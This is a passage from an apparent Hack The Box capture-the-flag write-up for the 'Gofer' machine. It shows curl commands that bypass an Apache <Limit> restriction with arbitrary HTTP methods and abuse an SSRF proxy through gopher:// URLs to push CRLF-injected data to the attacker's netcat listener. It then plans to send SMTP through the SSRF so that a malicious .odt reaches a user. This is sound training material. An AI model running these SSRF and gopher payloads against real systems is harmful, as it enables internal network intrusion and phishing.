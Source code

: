 Looks like any method works as long as it's not GET
```bash
curl -XPUT http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Even invalid methods
```bash
curl -XMEH http://proxy.gofer.htb/index.php?url=http://10.10.14.218:9090/index.html
<!-- Welcome to Gofer proxy -->
<h1>zoinkers</h1>
1
```

Found [this](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630) article about leveraging the `gopher` protocol in weaponizing `SSRF`, apparently that's quite useful, as we can send cariage return and stuff, so that gives us a lot of controll over the payloads we can funnel through.  
  
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:9090/_TEST%250Azoinks%250Azoinkers%250Azoinkis%250Azoinkamus%250Azoinkera'
```
```bash
nc -lknp 9090
TEST
zoinks
zoinkers
zoinkis
zoinkamus
zoinkera
```

Circling back the email we got from the samba share, we know the following:
```
- Jocelyn really likes to click on stuff
- From now on important documents will only be sent internally, by mail 
- Preferably in odt format because they use LibreOffice
- Tom is working on an unfinished Proxy, for which the access is restricted via <Limit>
```

The proxy thing is running on Apache
```bash
curl -I http://proxy.gofer.htb/
HTTP/1.1 401 Unauthorized
Date: Sun, 13 Aug 2023 17:56:10 GMT
Server: Apache/2.4.56 (Debian)
WWW-Authenticate: Basic realm="Restricted Content"
Content-Type: text/html; charset=iso-8859-1
```

So some quick google dorking and we find the following, [which](https://httpd.apache.org/docs/2.4/mod/core.html#limit) would explain why we can access the index.php thing with any method except GET.  

So if important document will on be sent internally by mail, and we have this SSRF where we can leverage gopher, we can send SMTP payloads through it, which will technically come from the internal network. All that's left to do is to fin and send her a `bad.odt`
